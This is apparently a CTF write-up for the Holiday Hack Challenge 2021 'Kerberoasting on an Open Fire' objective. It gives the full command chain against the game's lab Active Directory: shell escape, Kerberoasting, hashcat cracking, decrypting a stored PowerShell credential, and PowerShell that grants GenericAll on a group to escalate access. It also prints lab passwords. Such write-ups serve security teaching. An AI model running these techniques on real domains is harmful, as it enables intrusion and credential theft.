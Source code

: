 # Objective 8: Kerberoasting on an Open Fire
**Location: Staging**  
**Elf: Jingle Ringford**  
**Hints provided by Eve Snowshoes after completion of [HoHo ... No](https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/HoHo...No.md)**

The objective to obtain a secret research document.
In order to get an account in the ELFU AD domain, a registration on https://register.elfu.org is required.
After that an individual username and password is provided which can be used to logon to grades.elfu.org using SSH on port 2222.

### Escaping Application
After the SSH login an application is automatically started.
It is possible to escape this application by sending an EOF (CTRL-D).

### Escaping Python Shell
After this a Python shell is displayed.
In order to escape this `os.system("bash")` has to be submitted in order to get to a normal Unix shell.

### Reconnaissance
An nmap scan of the network 10.128.0.0/22 reveals two hosts providing Windows services: 10.128.1.53 (domain controller) and 10.128.3.30 (samba file server) with the shares `elfu_svc_shr` and `research_dep`.


### Pulling data from AD
Next the tool `ldapdomaindump` can be used in order to get an idea of the user<->group<->permission structure:
```
ldapdomaindump 10.128.1.53 -u 'elfu\{userid}' -p '{password}'
```
This can be done manually or using Bloodhound.
Bloodhound also reveals that the user `elfu_svc` is Kerberoastable.

The password hash for this Kerberoastable user can be obtained by running
```
GetUserSPNs.py -outputfile spns.txt -dc-ip 10.128.1.53 'elfu.local/{userid}:{passworð}' -request
```

### Cracking the Password
We follow the hints and prepare the password cracking as follows:
We prepare a password list using CeWL, keeping in mind that explicitly also digits are valid as per the provided hint:
```
./cewl.rb https://register.elfu.org/register --with-numbers -w wordlist
```
In addition, also following the hint, the OneRuleToRuleThemAll rule for Hashcat is downloaded:
```
curl -OJ https://raw.githubusercontent.com/NotSoSecure/password_cracking_rules/master/OneRuleToRuleThemAll.rule
```
Equipped with these tools, we can let Hashcat crack the password:
```
hashcat -m 13100 -a0 spn.txt --potfile-disable -r OneRuleToRuleThemAll.rule --force -O -w 4 --opencl-device-types 1,2 wordlist
```

Hashcat finds the password for `elfu_svc` to be `Snow2021!`.

### Access to elfu_svc_shr
With this information we can get access to the elfu_svc_shr file share on 10.128.3.30:
```
smbclient -U elfu_svc '\\10.128.3.30\elfu_svc_shr'
```
On this share are several Powershell scripts. One of them, `GetProcessInfo.ps1`, holds credentials for the user `remote_elf`:
```powershell
$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
```

### Getting into group Research Department
With the `remote_elf` credential snippet from the script, we can grant our windows domain user the `GenericAll` permissions for the group Research Department (based on [scripts](https://github.com/chrisjd20/hhc21_powershell_snippets) provided by Chris Davis, a Kringle Con speaker) :
```powershell
Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock {
  Add-Type -AssemblyName System.DirectoryServices
  $ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
  $username = "{userid}"
  $nullGUID = [guid]'00000000-0000-0000-0000-000000000000'
  $propGUID = [guid]'00000000-0000-0000-0000-000000000000'
  $IdentityReference = (New-Object System.Security.Principal.NTAccount("elfu.local\$username")).Translate([System.Security.Principal.SecurityIdentifier])
  $inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None
  $ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference, ([System.DirectoryServices.ActiveDirectoryRights] "GenericAll"), ([System.Security.AccessControl.AccessControlType] "Allow"), $propGUID, $inheritanceType, $nullGUID
  $domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
  $secOptions = $domainDirEntry.get_Options()
  $secOptions.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl
  $domainDirEntry.RefreshCache()
  $domainDirEntry.get_ObjectSecurity().AddAccessRule($ACE)
  $domainDirEntry.CommitChanges()
  $domainDirEntry.dispose()
} -Credential $aCred -Authentication Negotiate
```
and add then our user to this group:
```powershell
Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock {
  Add-Type -AssemblyName System.DirectoryServices
  $ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
  $username = "{userid}"
  $password = "{password}"
  $domainDirEntry = New-Object   System.DirectoryServices.DirectoryEntry $ldapConnString, $username, $password
  $user = New-Object System.Security.Principal.NTAccount("elfu.local\$username")
  $sid=$user.Translate([System.Security.Principal.SecurityIdentifier])
  $b=New-Object byte[] $sid.BinaryLength
  $sid.GetBinaryForm($b,0)
  $hexSID=[BitConverter]::ToString($b).Replace('-','')
  $domainDirEntry.Add("LDAP://<SID=$hexSID>")
  $domainDirEntry.CommitChanges()
  $domainDirEntry.dispose()
} -Credential $aCred -Authentication Negotiate
```
### Access to research_dep share
After a few minutes, our new group membership gets replicated to the samba file server, so that we now have access to the secret document:
```
smbclient '\\10.128.3.30\research_dep'
smb: \> dir
  .                                   D        0  Thu Dec  2 16:39:42 2021
  ..                                  D        0  Fri Dec 24 08:01:27 2021
  SantaSecretToAWonderfulHolidaySeason.pdf      N   173932  Thu Dec  2 16:38:26 2021

		41089256 blocks of size 1024. 34373492 blocks available
```

The [PDF document](https://github.com/joergschwarzwaelder/hhc2021/blob/master/Objective-8/SantaSecretToAWonderfulHolidaySeason.pdf) lists **Kindness** as first secret ingredient for a wonderful holiday season.

---
### Bonus: Password of user remote_elf
The encrypted password in the Powershell script can be decrypted:
```powershell
PS C:\Users\joergen> $SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
PS C:\Users\joergen> $aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
PS C:\Users\joergen> $temp = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($aPass)
PS C:\Users\joergen> $PlainPassword = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($temp)
PS C:\Users\joergen> Write-Output "$PlainPassword"
A1d655f7f5d98b10!
```

So the password of `remote_elf` is **A1d655f7f5d98b10!**.

### Bonus: Automation - Kerberoboting
This whole process was automated in an `expect` [script](https://github.com/joergschwarzwaelder/hhc2021/blob/master/Objective-8/kerberoboting) named `kerberoboting`, so that you can enjoy a brew whilst your computer does the work.
It just requires you to register at https://register.elfu.org, have `hashcat` installed in the PATH and a working CeWL in the local directory:
```
joergen@northpole:~$ ./kerberoboting jsfdgdsjjl 'Ndcopkmbo#'
#
# Kerberoboting in progress - get a brew and lean back
#

Retrieving the wordlist from register.elfu.org using CeWL
Retrieving the OneRuleToRuleThemAll rule for Hashcat
Logging on to grades.elfu.org using SSH
Escaping the application using <EOF>
Escaping the Python shell using os.system('bash')
These shares are available on the file server
smbclient -L '\\\\10.128.3.30'
Enter WORKGROUP\jsfdgdsjjl's password: 

	Sharename       Type      Comment
	---------       ----      -------
	netlogon        Disk      
	sysvol          Disk      
	elfu_svc_shr    Disk      elfu_svc_shr
	research_dep    Disk      research_dep
	IPC$            IPC       IPC Service (Samba 4.3.11-Ubuntu)
Running GetUserSPNs.py using my user id to enumerate SPNs linked to user accounts and get their password hashes
Running Hashcat to crack the password
  ok. Password is Snow2021!
Getting access to samba \\\\10.128.3.30\elfu_svc_shr share as user elfu_svc
Obtaining file GetProcessInfo.ps1 which has credentials for remote_elf embedded
Granting myself GenericAll permissions on AD group Research Department and adding myself to it
Getting access to samba \\\\10.128.3.30\research_dep using my user id
dir
  .                                   D        0  Thu Dec  2 16:39:42 2021
  ..                                  D        0  Fri Dec 24 08:01:27 2021
  SantaSecretToAWonderfulHolidaySeason.pdf      N   173932  Thu Dec  2 16:38:26 2021

		41089256 blocks of size 1024. 34373492 blocks available
smb: \\> Getting file SantaSecretToAWonderfulHolidaySeason.pdf
Transferring file SantaSecretToAWonderfulHolidaySeason.pdf to local machine

#
# Have fun and explore more
#

jsfdgdsjjl@grades:~$ 
```

You can see `kerberoboting` in action here: https://asciinema.org/a/458522

**Achievement: Kerberoasting on an Open Fire**
